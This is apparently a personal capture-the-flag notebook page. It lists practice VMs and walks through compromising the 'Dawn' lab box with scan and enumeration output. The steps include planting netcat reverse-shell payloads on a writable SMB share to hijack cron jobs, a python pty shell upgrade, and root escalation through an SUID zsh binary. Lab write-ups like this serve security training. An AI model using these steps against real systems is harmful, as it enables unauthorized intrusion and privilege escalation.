







Index
- BasicPenTestingBox
- BasicPenTestingBox2
- bee box
- BossPlayer
- CyberChallenge19
- Dawn
- DC-1
- DC-2
- DC-3
- DerpNStik
- EVM
- Fowsniff
- Gemini Inc 1
- JIS_CTF
- mullidae
- PumpkinFestival
- PumpkinGarden
- PumpkinRaising
- QuaoarCTFHackfest2016
- Rickdiculously Easy
- silky02
- silky1
- Typhoon
- VMS to try
- xss challenges
- Blue
- mr robot
- Unfinished VMS
- CasinoRoyale
- WinterMute Straylight
- connect the dots (unfinished)
- arsenal
- heist
- MyHouse Box
- Sputnik
- Node
- HackInOs
- Seattle
- DC416-Galahad
- Not a Box
- ICE
Dawn
-----------------------------[ netdiscover ]-----------------------------------------------------------------
Currently scanning: 172.26.113.0/16 | Screen View: Unique Hosts
174 Captured ARP Req/Rep packets, from 9 hosts. Total size: 10440
_____________________________________________________________________________
IP At MAC Address Count Len MAC Vendor / Hostname
-----------------------------------------------------------------------------
192.168.0.1 18:a6:f7:3a:5d:aa 1 60 TP-LINK TECHNOLOGIES CO.,LTD
192.168.0.1 10:be:f5:23:7e:c7 1 60 D-Link International
192.168.0.1 e4:6f:13:30:07:4c 160 9600 D-Link International
192.168.0.1 d4:6e:0e:9f:f2:bd 1 60 TP-LINK TECHNOLOGIES CO.,LTD
192.168.0.1 ec:ad:e0:d4:ea:c1 1 60 D-Link International
192.168.7.1 e4:6f:13:30:07:4c 1 60 D-Link International
192.168.7.1 10:be:f5:23:7e:c7 1 60 D-Link International
172.19.211.30 08:00:27:7c:6b:f6 6 360 PCS Systemtechnik GmbH
172.19.210.1 d0:c2:82:c7:94:40 2 120 Cisco Systems, Inc
-----------------------------------[ IFCONFIG ]---------------------------------------------------------------
vmnet1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
inet 192.168.253.1 netmask 255.255.255.0 broadcast 192.168.253.255
inet6 fe80::250:56ff:fec0:1 prefixlen 64 scopeid 0x20<link>
ether 00:50:56:c0:00:01 txqueuelen 1000 (Ethernet)
RX packets 0 bytes 0 (0.0 B)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 83 bytes 0 (0.0 B)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
vmnet8: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
inet 172.16.124.1 netmask 255.255.255.0 broadcast 172.16.124.255
inet6 fe80::250:56ff:fec0:8 prefixlen 64 scopeid 0x20<link>
ether 00:50:56:c0:00:08 txqueuelen 1000 (Ethernet)
RX packets 0 bytes 0 (0.0 B)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 83 bytes 0 (0.0 B)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
---------------------[ PING ]-------------------------------------------------
crazyeights@kali:~$ ping 172.19.211.30
PING 172.19.211.30 (172.19.211.30) 56(84) bytes of data.
64 bytes from 172.19.211.30: icmp_seq=1 ttl=64 time=0.240 ms
64 bytes from 172.19.211.30: icmp_seq=2 ttl=64 time=0.109 ms
^C
--- 172.19.211.30 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1016ms
rtt min/avg/max/mdev = 0.109/0.174/0.240/0.065 ms
-------------------[ NMAP ]------------------------------------------------
crazyeights@kali:~$ sudo nmap -PS 172.19.211.30
[sudo] password for crazyeights:
Starting Nmap 7.80 ( https://nmap.org ) at 2019-09-09 13:41 EDT
Nmap scan report for ad10-211-30.resnet.carleton.ca (172.19.211.30)
Host is up (0.00015s latency).
Not shown: 996 closed ports
PORT STATE SERVICE
80/tcp open http
139/tcp open netbios-ssn
445/tcp open microsoft-ds
3306/tcp open mysql
MAC Address: 08:00:27:7C:6B:F6 (Oracle VirtualBox virtual NIC)
Nmap done: 1 IP address (1 host up) scanned in 0.45 seconds
crazyeights@kali:~$

msf5 > search crawler
Matching Modules
================
# Name Disclosure Date Rank Check Description
- ---- --------------- ---- ----- -----------
0 auxiliary/crawler/msfcrawler normal Yes Metasploit Web Crawler
1 auxiliary/scanner/http/crawler normal No Web Site Crawler
2 exploit/windows/mssql/mssql_linkcrawler 2000-01-01 great No Microsoft SQL Server Database Link Crawling Command Execution
msf5 > use auxiliary/crawler/msfcrawler
msf5 auxiliary(crawler/msfcrawler) > options
Module options (auxiliary/crawler/msfcrawler):
Name Current Setting Required Description
---- --------------- -------- -----------
PATH / yes Starting crawling path
RHOSTS yes The target address range or CIDR identifier
RPORT 80 yes Remote port
THREADS 1 yes The number of concurrent threads
msf5 auxiliary(crawler/msfcrawler) > set RHOSTS
[-] Unknown variable
Usage: set [option] [value]
Set the given option to value. If value is omitted, print the current value.
If both are omitted, print options that are currently set.
If run from a module context, this will set the value in the module's
datastore. Use -g to operate on the global datastore
msf5 auxiliary(crawler/msfcrawler) > set RHOSTS 172.19.211.30
RHOSTS => 172.19.211.30
msf5 auxiliary(crawler/msfcrawler) > exploit
[*] Loading modules: /usr/share/metasploit-framework/data/msfcrawler
[*] Loaded crawler module Simple from /usr/share/metasploit-framework/data/msfcrawler/basic.rb...
[*] Loaded crawler module Comments from /usr/share/metasploit-framework/data/msfcrawler/comments.rb...
[*] Loaded crawler module Forms from /usr/share/metasploit-framework/data/msfcrawler/forms.rb...
[*] Loaded crawler module Frames from /usr/share/metasploit-framework/data/msfcrawler/frames.rb...
[*] Loaded crawler module Image from /usr/share/metasploit-framework/data/msfcrawler/image.rb...
[*] Loaded crawler module Link from /usr/share/metasploit-framework/data/msfcrawler/link.rb...
[*] Loaded crawler module Objects from /usr/share/metasploit-framework/data/msfcrawler/objects.rb...
[*] Loaded crawler module Scripts from /usr/share/metasploit-framework/data/msfcrawler/scripts.rb...
[*] OK
[*] URI LIMITS ENABLED: 10 (Maximum number of requests per uri)
[*] Target: 172.19.211.30 Port: 80 Path: / SSL:
[*] >> [200] /
---------------------------------------------------[ SKIPFISH ]----------------------------------------------------
crazyeights@kali:~$ skipfish -o dawn_spider_iv -S /usr/share/skipfish/dictionaries/minimal.wl http://172.19.211.30:80


managment,logs in server-status:
2019/09/09 13:40:02 [31;1mCMD: UID=0 PID=985 | /bin/sh -c /home/ganimedes/phobos [0m
---> There is a user gainmedes
2019/09/09 13:41:01 [31;1mCMD: UID=1000 PID=1000 | /bin/sh -c /home/dawn/ITDEPT/product-control
--> There is a user dawn
3306/tcp open mysql
razyeights@kali:~$ enum4linux 172.19.211.30
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Mon Sep 9 14:45:46 2019
==========================
| Target Information |
==========================
Target ........... 172.19.211.30
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none
=====================================================
| Enumerating Workgroup/Domain on 172.19.211.30 |
=====================================================
[+] Got domain/workgroup name: WORKGROUP
=============================================
| Nbtstat Information for 172.19.211.30 |
=============================================
Looking up status of 172.19.211.30
DAWN <00> - B <ACTIVE> Workstation Service
DAWN <03> - B <ACTIVE> Messenger Service
DAWN <20> - B <ACTIVE> File Server Service
..__MSBROWSE__. <01> - <GROUP> B <ACTIVE> Master Browser
WORKGROUP <00> - <GROUP> B <ACTIVE> Domain/Workgroup Name
WORKGROUP <1d> - B <ACTIVE> Master Browser
WORKGROUP <1e> - <GROUP> B <ACTIVE> Browser Service Elections
MAC Address = 00-00-00-00-00-00
======================================
| Session Check on 172.19.211.30 |
======================================
[+] Server 172.19.211.30 allows sessions using username '', password ''
============================================
| Getting domain SID for 172.19.211.30 |
============================================
mkdir failed on directory /var/run/samba/msg.lock: Permission denied
Unable to initialize messaging context
mkdir failed on directory /var/run/samba/msg.lock: Permission denied
Domain Name: WORKGROUP
Domain Sid: (NULL SID)
[+] Can't determine if host is part of domain or part of a workgroup
=======================================
| OS information on 172.19.211.30 |
=======================================
Use of uninitialized value $os_info in concatenation (.) or string at ./enum4linux.pl line 464.
[+] Got OS info for 172.19.211.30 from smbclient:
[+] Got OS info for 172.19.211.30 from srvinfo:
mkdir failed on directory /var/run/samba/msg.lock: Permission denied
Unable to initialize messaging context
mkdir failed on directory /var/run/samba/msg.lock: Permission denied
DAWN Wk Sv PrQ Unx NT SNT Samba 4.9.5-Debian
platform_id : 500
os version : 6.1
server type : 0x809a03
==============================
| Users on 172.19.211.30 |
==============================
Use of uninitialized value $users in print at ./enum4linux.pl line 874.
Use of uninitialized value $users in pattern match (m//) at ./enum4linux.pl line 877.
Use of uninitialized value $users in print at ./enum4linux.pl line 888.
Use of uninitialized value $users in pattern match (m//) at ./enum4linux.pl line 890.
==========================================
| Share Enumeration on 172.19.211.30 |
==========================================
mkdir failed on directory /var/run/samba/msg.lock: Permission denied
Unable to initialize messaging context
Sharename Type Comment
--------- ---- -------
print$ Disk Printer Drivers
ITDEPT Disk PLEASE DO NOT REMOVE THIS SHARE. IN CASE YOU ARE NOT AUTHORIZED TO USE THIS SYSTEM LEAVE IMMEADIATELY.
IPC$ IPC IPC Service (Samba 4.9.5-Debian)
Reconnecting with SMB1 for workgroup listing.
Server Comment
--------- -------
Workgroup Master
--------- -------
WORKGROUP DAWN
[+] Attempting to map shares on 172.19.211.30
//172.19.211.30/print$ Mapping: DENIED, Listing: N/A
//172.19.211.30/ITDEPT Mapping: OK, Listing: OK
//172.19.211.30/IPC$ [E] Can't understand response:
mkdir failed on directory /var/run/samba/msg.lock: Permission denied
Unable to initialize messaging context
NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*
=====================================================
| Password Policy Information for 172.19.211.30 |
=====================================================
[+] Attaching to 172.19.211.30 using a NULL share
[+] Trying protocol 445/SMB...
[+] Found domain(s):
[+] DAWN
[+] Builtin
[+] Password Info for Domain: DAWN
[+] Minimum password length: 5
[+] Password history length: None
[+] Maximum password age: 37 days 6 hours 21 minutes
[+] Password Complexity Flags: 000000
[+] Domain Refuse Password Change: 0
[+] Domain Password Store Cleartext: 0
[+] Domain Password Lockout Admins: 0
[+] Domain Password No Clear Change: 0
[+] Domain Password No Anon Change: 0
[+] Domain Password Complex: 0
[+] Minimum password age: None
[+] Reset Account Lockout Counter: 30 minutes
[+] Locked Account Duration: 30 minutes
[+] Account Lockout Threshold: None
[+] Forced Log off Time: 37 days 6 hours 21 minutes
[+] Retieved partial password policy with rpcclient:
Password Complexity: Disabled
Minimum Password Length: 5
===============================
| Groups on 172.19.211.30 |
===============================
[+] Getting builtin groups:
[+] Getting builtin group memberships:
[+] Getting local groups:
[+] Getting local group memberships:
[+] Getting domain groups:
[+] Getting domain group memberships:
========================================================================
| Users on 172.19.211.30 via RID cycling (RIDS: 500-550,1000-1050) |
========================================================================
[I] Found new SID: S-1-22-1
[I] Found new SID: S-1-5-21-4292367078-475864837-953252120
[I] Found new SID: S-1-5-32
[+] Enumerating users using SID S-1-5-21-4292367078-475864837-953252120 and logon username '', password ''
S-1-5-21-4292367078-475864837-953252120-500 *unknown*\*unknown* (8)
S-1-5-21-4292367078-475864837-953252120-501 DAWN\nobody (Local User)
crazyeights@kali:~$ smbclient \\\\172.19.211.30\\ITDEPT -N
mkdir failed on directory /var/run/samba/msg.lock: Permission denied
Unable to initialize messaging context
Try "help" to get a list of possible commands.
smb: \> ls
. D 0 Fri Aug 2 23:23:20 2019
.. D 0 Fri Aug 2 23:21:39 2019
the managment log seemed to be updating itself every minute.
reate our own versions of the web-control and product-control files on the system and maybe we can get them to run when the managment log triggers .
. We can just use a simple nc shell for the contents of the files.
2 payloads each set up to call back on a different port so we can see which file gets called if any of them.
We just need to set up a nc listener for each of the payloads, then back on the SMB share we can use the PUT command to upload the files.
wait a minute and see if our payloads are triggered.
We got a hit from the product-control payload and we’ve landed in a reverse-shell for the user dawn
upgrade the shell using our standard python cmd
python -c “import pty;pty.spawn(‘/bin/bash’)”
We can now cd to the /tmp dir and upload our LinEnum.sh script to help us priv esc to root on the box
Looking through the output we can see that the zsh shell seems to have SUID set on it.
-rwsr-xr-x 1 root root 861568 Feb 4 2019 /usr/bin/zsh
and as this is an easy box lets just try and open a zsh shell and see if we land as root.
And we are in!!!
www-data@dawn:/tmp$ /usr/bin/zsh
/usr/bin/zsh
dawn# whoami
whoami
root
